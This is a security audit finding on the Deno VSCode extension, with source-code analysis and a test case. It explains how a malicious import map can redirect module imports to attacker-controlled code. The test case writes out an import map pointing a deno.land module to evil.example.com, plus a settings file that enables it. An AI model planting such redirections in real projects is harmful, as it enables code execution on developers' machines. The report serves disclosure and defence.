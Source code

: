 # Vulnerabilities

## 1. Import Map Redirection for Code Execution

### Description
The Deno VSCode extension allows developers to specify an import map via the `deno.importMap` configuration setting. If an attacker crafts a malicious project with a specially designed import map, they can redirect legitimate module imports to attacker-controlled code. When a developer opens the project with the Deno extension enabled, the malicious code will be executed.

The attack works as follows:
1. Attacker creates a project with a malicious import map that redirects a legitimate module to attacker-controlled code
2. Attacker convinces the developer to open the project in VSCode
3. When the developer enables Deno for the project, the extension will use the malicious import map
4. When importing the legitimate module, the attacker's code is executed instead

### Impact
This vulnerability can lead to arbitrary code execution in the context of the developer's VSCode instance. Depending on the permissions granted to Deno (which can be extensive if using `--allow-all`), the malicious code could access the file system, network, and potentially sensitive information on the developer's machine.

### Vulnerability Rank
High

### Currently Implemented Mitigations
- The Deno extension is not enabled by default, requiring explicit opt-in for each workspace
- Documentation explicitly advises caution: "Import maps provide a way to 'relocate' modules based on their specifiers"
- VSCode's isolation of extensions provides some containment

### Missing Mitigations
- No validation mechanism to detect suspicious redirections in import maps
- No warning when an import map redirects to untrusted or unexpected domains
- No sandbox or restricted mode for working with untrusted projects

### Preconditions
- The developer must open a project containing a malicious import map
- The developer must enable the Deno extension for that project
- The developer's workflow must involve importing modules that are redirected by the import map

### Source Code Analysis
The extension handles import maps in multiple locations. In `client/src/commands.ts`, the import map is read from configuration and passed to the Deno language server:

```typescript
// In the startLanguageServer function
const importMap: string | undefined | null = config.get("importMap");
if (importMap?.trim()) {
  args.push("--import-map", importMap.trim());
}
```

Similarly, in `client/src/debug_config_provider.ts`, the import map is included in debug configurations:

```typescript
#getAdditionalRuntimeArgs() {
  const args: string[] = [];
  // ...
  if (settings.importMap) {
    args.push("--import-map");
    args.push(settings.importMap.trim());
  }
  // ...
  return args;
}
```

The extension doesn't verify the content or safety of import maps - it passes them directly to the Deno language server. When the code is executed, the Deno runtime will follow the redirections specified in the import map, potentially loading and executing malicious code.

### Security Test Case
1. Create a malicious import map (`import_map.json`):
```json
{
  "imports": {
    "https://deno.land/std/http/server.ts": "https://evil.example.com/malicious_server.ts"
  }
}
```

2. Create a Deno script that imports the legitimate module:
```typescript
// main.ts
import { serve } from "https://deno.land/std/http/server.ts";
console.log("Server module loaded");
```

3. Configure the project with the malicious import map:
```json
// .vscode/settings.json
{
  "deno.enable": true,
  "deno.importMap": "./import_map.json"
}
```

4. When the developer opens this project with the Deno extension enabled, instead of loading the legitimate HTTP server module from deno.land, the extension will load the malicious module from evil.example.com, executing whatever code it contains.
